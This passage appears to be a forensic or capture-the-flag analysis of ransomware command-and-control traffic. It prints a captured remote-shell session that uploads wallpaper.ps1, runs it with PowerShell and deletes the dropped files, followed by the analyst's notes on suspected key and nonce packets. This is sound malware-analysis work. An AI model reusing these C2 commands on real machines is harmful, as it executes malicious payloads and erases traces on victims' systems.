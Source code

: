 and ends with

```txt
*.=GP.....@..O.[^ |:N.s.@<Ro.a...........8[A....e..u.b..........;..~ACK_UPLOAD_FIN
upload C:\Users\user\AmongRust\wallpaper.ps1 708
ACK_UPLOAD
m1.|.............`$......Cp...6JK.Ux.H..=.../...Q..!l..
.\.d}e.7.=Q.......-...P..."."..}...F..pTo.)......&r....asf9;.?Y`.:..J..g.....+...a.|.:....@
~3H......->2..'&...>|Yx.....l"..KD..'m.9<:.dQ...X.Rl....?....{U..RY.q}.q...Y
(...e.f........~.....y.........C\8....L'.:n*>...a...j.SL.ch...74.hD.B&.6....c.\./L....K..k......PE.-+....!.0J...T.....7.j.F.P\AS.V.-d.;...(.Pah.
........w...j?V..5..N.....8....]7.......).6>9p.."..).....*.7....m........$.=
....l.>..
..#...O..B9/....,..:BZ..i.p......J.T.M...f.K.p?.a......Qr.o.........A7..v`..7.~.Q}...<5...t..=
.c.....i.#...v. s.?...m].h!.)|./"........*./.^....I_(.[...H....S.T	.7.IfzZ.%...#yf...:dj.....s..E.......R.m............n...=qD%...F.7.:f.....=....+gm....0.NACK_UPLOAD_FIN
exec powershell C:\Users\user\AmongRust\wallpaper.ps1

exec del C:\Users\user\AmongRust\wallpaper.ps1 /q

exec del C:\Users\user\AmongRust\wallpaper.PNG /q

exec rmdir C:\Users\user\AmongRust

exit
```

so C2 remote shell traffic contained

- a file named wallpaper.PNG which could be a next stage payload
- a powershell script called wallpaper.ps1

looks like the C2 traffic caused the infector to execute on the host
so infector may be a payload of a later stage (the ransomware)
and we maybe have to track back.
find more out about the powershell script and the wallpaper

ACK_N / ACK_K could be C2 ACKs for crypto key material like a nonce and a key

packet 3645, 192.168.189.213 sends 32 byte to 192.168.189.128 port 8345

- 6574212c9b4d9334d893bec2477cb86a70983b3c33952d68a8cc5c0226070abf

packet 3646, answer len 6 with ACK_K

- could be acknowledgement for key reception

packet 3647, .213 -> .128, len 32

- 0e02f4a9a8b5beeaba8348d6d2f87c606849df9a5eef49a65c98cf07d4c238a6

packet 3648, answer, lent 6 with ACK_N

- could be nonce
- exe has chacha references
- but 32 byte would be too much
- maybe this is nonce + counter + X
